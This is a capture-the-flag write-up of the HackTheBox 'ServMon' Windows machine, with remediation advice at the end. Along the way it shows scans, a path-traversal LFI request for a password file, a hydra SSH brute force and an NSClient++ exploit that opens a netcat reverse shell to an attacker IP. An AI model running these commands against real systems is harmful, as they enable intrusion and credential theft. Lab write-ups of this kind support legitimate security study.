









# HackTheBox - ServMon


## Overview

- Difficulty: Easy
- Platform: Windows
- Skills Demonstrated: FTP Enumeration, Web Application Enumeration, Local File Inclusion (LFI), SSH Authentication Attacks, SSH Local Port Forwarding, NSClient++ Exploitation, Windows Privilege Escalation

## Methodology 

The following methodology was conducted during this assessment:

- Enumeration
- Credential Discovery
- Initial Access
- Privilege Escalation
- Post Exploitation

---

## Enumeration

Initial enumeration began with a `Nmap` port scan to discover any accessible ports and services
```
nmap -sC -A -sV -T5 10.10.10.184 -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 11:58 BST
Nmap scan report for 10.129.227.77
Host is up (0.028s latency).
Not shown: 65518 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-title: NSClient++
|_Requested resource was /index.html
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
```

Key Findings:
- Port 8443 - HTTPS
- Port 80 - HTTP
- Port 22 - SSH
- Port 21 - FTP
- Anonymous FTP login allowed

Since anonymous access was enabled for the FTP service, this is where I began my port enumeration. Successful authentication to this service can expose potential users, confidential information and even lead to remote code execution if we are able to upload a web shell to a server document root.
```
ftp 10.129.227.77
```





In this case, the FTP service exposed the `Home` directory revealing the users `Nadine` and `Nathan`. Further exploration revealed a `Confidential.txt` file within `Nadine`'s directory



The contents of this file revealed the existence of a `passwords.txt` file located on `Nathan`'s desktop.

Although the FTP service revealed useful information, no immediate access was obtained. Further enumeration identified an HTTPS service running on port 8443. Accessing the service revealed an **NSClient++** web interface. No immediate exploitation path was identified at this stage, so enumeration continued with the HTTP service running on port 80.

Port 8443


Port 80



The web service hosted a login page identifying the application as **NVMS-1000**. Based on the exposed version information, a search for known vulnerabilities was performed, revealing that the application was vulnerable to a Local File Inclusion (LFI) vulnerability

# Initial Access

Using Burp Suite, the HTTP request was intercepted and modified to test for arbitrary file inclusion. Since FTP enumeration previously revealed the existence of Passwords.txt, the LFI vulnerability was used to retrieve this file from Nathan's desktop.
```
GET ../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
```



The `Passwords.txt` file contained a list of potential passwords. Since SSH was exposed on port 22 and valid usernames had already been identified through FTP enumeration, the password list was used to perform a brute-force attack against the SSH service.
```
hydra -l Nadine -P passwords.txt -s 22 ssh://10.129.227.77
```



The attack successfully identified valid SSH credentials for the `Nadine` account, providing remote access to the target system and resulting in our initial foothold.
```
ssh nadine@10.129.227.77
```



# Privilege Escalation

During privilege escalation enumeration, the previously identified NSClient++ service was revisited. Further investigation of the installed applications revealed **NSClient++** was installed in the `Program Files` directory, indicating that the service could potentially be leveraged for privilege escalation.

Examining the configuration file revealed the web interface authentication password and the allowed hosts, which in this case is restricted to the local machine(`127.0.0.1`) 


The installed version was identified and since the **NSClient++** interface was only accessible locally, an SSH local port forward was configured
```
nscp.exe --version
```



```
ssh -L 8443:127.0.0.1:8443 nadine@10.129.227.77
```

A search for publicly available exploits matching the identified NSClient++ version revealed a privilege escalation exploit.. The exploit was transferred to the target machine along with a Netcat binary to establish a reverse shell.

Exploit source: https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation

The exploit was executed, causing NSClient++ to execute the payload with elevated privileges and providing a reverse shell back to the Kali machine.
```
privesc.py "C:\Users\Nadine\Desktop\nc.exe 10.10.16.2 443 -e cmd.exe" https://127.0.0.1:8443 ew2x6SsGTxjRwXOT
```



# Conclusion

The assessment demonstrated how multiple security weaknesses could be chained together to gain full control of the target system. Anonymous FTP access exposed sensitive files and user information, which led to the discovery of a password list. The NVMS-1000 web application was then exploited through a Local File Inclusion (LFI) vulnerability to retrieve the password file, which was used to obtain valid SSH credentials.


After gaining initial access, further enumeration revealed an outdated and misconfigured NSClient++ installation. By identifying the vulnerable version and exploiting the service, privilege escalation was achieved, resulting in a SYSTEM-level shell on the target machine.

# Lessons Learned

- Anonymous FTP access can provide valuable enumeration data, including usernames and sensitive files that may assist further attacks.
- Information gathered during early enumeration can become useful later in the attack chain, highlighting the importance of thorough reconnaissance.
- Vulnerabilities such as Local File Inclusion can be used to access sensitive files when combined with previously discovered information.
- Valid credentials discovered from one source should be tested against other exposed services, as credential reuse is a common attack vector.
- Local services that are not externally accessible may still become exploitable after gaining initial access through techniques such as SSH port forwarding.
- Privilege escalation often requires combining multiple findings, including software version identification, configuration analysis, and service permissions.

# Remediation

- Disable anonymous FTP access and enforce authenticated access where FTP is required.
- Remove sensitive files containing credentials or password lists from user directories.
- Implement proper file permissions to prevent unauthorized access to sensitive information.
- Patch the NVMS-1000 application and address Local File Inclusion vulnerabilities.
- Enforce strong, unique passwords and prevent credential reuse across services.
- Upgrade NSClient++ to a supported and secure version.
- Restrict access to administrative interfaces such as NSClient++ to trusted hosts only.
- Regularly review services running with elevated privileges and apply the principle of least privilege.
